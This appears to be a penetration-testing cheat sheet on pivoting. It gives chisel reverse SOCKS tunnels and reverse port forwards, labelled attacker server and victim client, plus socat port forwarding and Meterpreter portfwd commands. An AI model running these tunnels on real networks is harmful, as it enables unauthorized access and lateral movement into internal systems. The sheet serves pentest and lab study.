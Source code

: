 
## Chisel

### Chisel Tunneling

You need to use the **same version for client and server** of chisel.

Server side (Attacker):

```
chisel server -p 8080 --reverse
```

Client Side (Victim):
```
chisel-x64.exe client [my_ip]:8080 R:socks 
```

After that use **proxychains** with port 1080 (default).

After version 1.5.0 chisel uses socks5 proxy.

### Chisel Port Forwarding

You need to use the **same version for client and server** of chisel.

Server side (Attacker):

```
chisel server -p 12312 --reverse
```

Client Side (Victim):

```
chisel client [my_ip]:12312 R:[port]:127.0.0.1:[port]
```

## Socat 

### Socat Port Forwarding

```
socat TCP-LISTEN:[victim_port],fork,reuseaddr TCP:[redirect_ip]:[exposed_port]
```

## Metasploit

### Meterpreter Local Port Forwarding

```
portfwd add –l [local_port] –p [exposed_port] –r [target_host]
```

More info about portfwd [here](https://www.offensive-security.com/metasploit-unleashed/portfwd/)

## Stunnel

